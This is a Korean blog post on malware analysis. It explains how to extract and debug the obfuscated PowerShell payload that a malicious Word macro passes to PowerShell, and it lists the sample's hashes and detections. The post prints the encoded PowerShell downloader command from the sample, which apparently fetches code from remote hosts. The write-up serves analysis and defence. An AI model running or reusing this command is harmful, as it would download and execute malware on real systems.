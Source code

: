 ```yaml
---
layout: post
comments: true
categories: posts
title: Powshell script obfuscation decode
subtitle: with api monitor
author: cainstorm
featured-image: /images/header/header_004.jpg
tags: [malware]
date-string: JUNE 28, 2018
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

### Powshell script obfuscation decode
악성 워드 문서 내, 파워쉘로 전달되는 난독화된 문자열 해제하기

> Filename : INV-840681218377.doc
> - MD5 : 61f2858cc90a8a2f1bc754492b0a0369
> - SHA1 : c3ecb541f8ffe2597f1991b74aac2170b17be849
> - SHA256 : 529024a76742a7337f1fabb0ee417ac2214be7a6a682ac8a4f4a30951e915e5e
> - Filesize : 	225.00 KB (230400 bytes)
> - Detection (Virustotal **39/54**)
>  - ALYac : Trojan.Downloader.VBA.gen
>  - AhnLab-V3 : W97M/Downloader

악성 워드 문서의 매크로 삽입 확인<br>
- [보기] -> [매크로] -> [편집]<br>

Visuao Basic for Applications 에서 다음과 같이 스크립트 화면을 볼 수 있는데, 파워셀에 명령을 전달하기 전인 끝나는 지점 [End Sub] 지점에서 
브레이크 포인트[F9] 를 걸어두고 [F8] 키를 눌러 한 단계씩 코드를 실행하며 디버깅 할 수 있다.
마지막 한 변수 안의 값이 파워셀로 전달되는 페이로드가 저장된 것을 확인할 수 있다.
<center>
    <div class="photoset-grid-custom" data-layout="21">
		<img src="/images/2018-06-28/2018-06-28-mal-001.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-002.jpg">		
		<img src="/images/2018-06-28/2018-06-28-mal-003.jpg">
	</div>
</center><br>

PowerShell 명령을 디버깅 할수 있는 프로그램(PowerShell ISE) 으로 명령어를 실행할 수 있다. 
여기서 확인할 사항은 MAS 분석 시 나온 command line 의 값을 생략된 것으로 추정됨
파워셀은 MS에서 개발한 명령어 인터프리터로 XP 이후의 윈도우에서 지원한다고 한다.<br><br>
워드문서의 매크로를 실행 시, 파워셀이 실행되면서 명령어 전달 이후 바로 종료되기 때문에 프로세스는 잠시 잡아두어야 하는데 API Monitor 란 도구를 사용하여 실행되는 프로세스를 모니터링 및 디버깅이 가능하다.<br>
**(아래 그림의 빨간 테두리 안의 버튼이 활성화 되어 있어야 함)**
**ollyDBG 나 Immunity DBG 에서도 프로세스를 attach 시켜 확인 가능하나 프로그램 실행하면서 attach를 하려는 순간 프로세스가 종료되어 버림**
<br>
<center>
    <div class="photoset-grid-custom" data-layout="22">
		<img src="/images/2018-06-28/2018-06-28-mal-004.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-005.jpg">		
		<img src="/images/2018-06-28/2018-06-28-mal-006.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-007.jpg">
	</div>
</center><br>

Powershell command line<br>

'''
PowersHell  [StriNG]::JOIn('',( '56W84c85%119k33N114U121k107N49%115~126Y118%121%127U104N60U82h121k104W50}75}121N126c95k112%117h121~114~
104}39}56h110k81h75U33W59}116~104k104k108c38U51k51k107}107N107h50U46W114N120%111}127~110N121}121h114%111h115}127%117~
121W104~101N50~127W115c113W51%77c70k70W94W51c92}116Y104c104c108Y38}51h51%107Y107~107k50Y120~117U114U123Y120~
115k114U123c120%115N123c104U110W125W117c114k117U114%123N50Y127N115c113%51%90h127%115~118c51k92N116Y104%104~
108U38W51k51W107k107c107}50}110h125W120Y117~115Y117~114h111c108U117%110%125~127N117W115k114}104~106~50W127c115~
113~51N117k84U122W79U75N89k51c92N116k104}104}108~38k51c51k107%107}107W50k113W115%115h126W117k112}121h125N108c108
Y50h127k115%113N51N109k116N115c43c42U51U92Y116}104~104h108}38N51N51k107Y107%107W50~126%111~49~117c106Y122h49}122
W113k50h127h115~113Y51}45N117W85Y84%37}51%59N50%79N108k112c117W104k52N59}92U59U53%39U56W112N74c112W60W33}60h59}
36%40U42%59U39k56U88U118Y90h33N56c121k114U106k38k104%121c113k108~55}59Y64k59c55%56~112W74k112W55W59c50U121}100N
121c59}39h122Y115N110W121k125U127k116}52N56}108U84}107k60%117W114N60%56k110%81}75~53h103U104W110W101}103}56h84U85}
119h50Y88h115}107W114W112c115W125Y120W90%117c112%121N52~56U108k84h107%48k60~56%88c118h90}53%39h79h104}125~110Y
104W49Y76Y110h115}127Y121%111k111~60c56N88~118N90W39c126}110c121c125%119c39W97k127~125k104c127N116}103k97W97' -spliT'u'-sp
'''

<center>
    <div class="photoset-grid-custom" data-layout="2">
		<img src="/images/2018-06-28/2018-06-28-mal-008.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-009.jpg">		
	</div>
</center><br>

<script src="/assets/js/jquery.photoset-grid.js"></script>

<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',
  
    // Wrap the images in links
    highresLinks: true,
  
    // Asign a common rel attribute
    rel: 'print-gallery',

    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>


{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
